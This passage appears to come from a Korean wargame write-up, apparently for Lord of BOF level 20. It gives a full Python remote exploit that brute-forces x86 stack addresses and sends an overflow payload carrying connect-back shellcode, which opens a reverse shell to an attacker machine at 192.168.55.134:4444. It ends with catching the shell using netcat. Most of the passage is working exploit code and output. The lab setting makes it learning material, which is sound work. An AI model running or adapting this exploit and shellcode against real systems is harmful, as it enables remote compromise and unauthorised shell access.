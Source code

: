 페이로드는 0xbfffffff부터 거꾸로 0xbfff0000까지 무작위 대입하며 payload를 메모리에 올리는 작업을 수행하고, 공격에 성공하면, 세팅해놓은 Kali Linux 쪽으로 Reverse connection을 맺는다.  
```python
# lob20_exploit.py
import sys
import struct
from socket import *

p32 = lambda x: struct.pack('<L', x)
host = "192.168.55.191"
port = 6666

# x86/linux/connect: 70 bytes
# port=4444, host=192.168.55.134
shellcode = (
    "\x31\xdb\x53\x43\x53\x6a\x02\x6a\x66\x58\x89\xe1\xcd\x80\x93\x59"
    "\xb0\x3f\xcd\x80\x49\x79\xf9\x5b\x5a\x68\xc0\xa8\x37\x86\x66\x68"
    "\x11\x5c\x43\x66\x53\x89\xe1\xb0\x66\x50\x51\x53\x89\xe1\x43\xcd"
    "\x80\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53"
    "\x89\xe1\xb0\x0b\xcd\x80"
)


for i in range(0xbfff0000, 0xbfffffff, 10):
    r = socket(AF_INET, SOCK_STREAM)
    r.connect((host,port))

    print "Addr : %s"%hex(i)

    payload  = "A"*44
    payload += p32(i)
    payload += "\x90"*100
    payload += shellcode

    print r.recv(52),
    print r.recv(6)
    r.send(payload)
    r.close()

```
nc로 port를 열고 나서  
![image](https://user-images.githubusercontent.com/69203345/147827126-60cf2995-3301-4b4c-9894-6f5843f63c75.png)  

위의 brute-force코드를실행하면  
![image](https://user-images.githubusercontent.com/69203345/147827168-940ee628-bf4c-4e22-8a31-ac2b3ddd684a.png)

짠 획득이다  
저는 nc에 -v옵션을 안줬지만 꼭 주도록 하세요  
![image](https://user-images.githubusercontent.com/69203345/147827267-83c30e10-37ac-454d-94b1-0a4255adebdb.png)

-v옵션을 줬을때  
![image](https://user-images.githubusercontent.com/69203345/147828279-70d8d4ed-a735-4b41-910c-4b39e45b808e.png)  
연결됐을때 잘보임, 좀더 많은 정보를 줌